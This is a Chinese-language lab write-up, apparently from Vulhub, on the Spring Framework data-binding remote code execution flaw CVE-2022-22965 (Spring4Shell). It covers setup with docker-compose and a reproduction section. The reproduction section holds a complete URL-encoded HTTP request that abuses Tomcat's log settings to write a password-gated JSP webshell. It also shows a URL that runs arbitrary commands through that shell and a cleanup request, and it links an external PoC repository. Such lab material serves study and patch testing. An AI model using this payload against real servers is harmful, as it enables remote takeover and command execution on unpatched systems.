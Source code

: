 # Spring框架Data Binding与JDK 9+导致的远程代码执行漏洞 CVE-2022-22965

## 漏洞描述

在JDK 9+上运行的Spring MVC或Spring WebFlux应用程序可能存在通过数据绑定执行远程代码（RCE）的漏洞。

现在已知的利用方法要求应用程序以WAR部署的形式在Tomcat上运行，然而，该漏洞的性质更为普遍，可能有其他方法可以利用它。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22965
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## 环境搭建

Vulhub执行如下命令启动一个Spring WebMVC 5.3.17服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080/?name=Bob&age=25`即可看到一个演示页面。

## 漏洞复现

发送如下数据包，即可修改目标的Tomcat日志路径与后缀，利用这个方法写入一个JSP文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: your-:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```

![image-20220412215932241](./images/image-20220412215932241.png)

然后，访问刚写入的JSP Webshell，执行任意命令：

```
http://your-ip:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![image-20220412220112693](./images/image-20220412220112693.png)

注意，需要在利用完成后将`class.module.classLoader.resources.context.parent.pipeline.first.pattern`清空，否则每次请求都会写入新的恶意代码在JSP Webshell中，导致这个文件变得很大。发送如下数据包将其设置为空：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。

## 漏洞POC

- spring4shell_behinder：https://github.com/4nth0ny1130/spring4shell_behinder
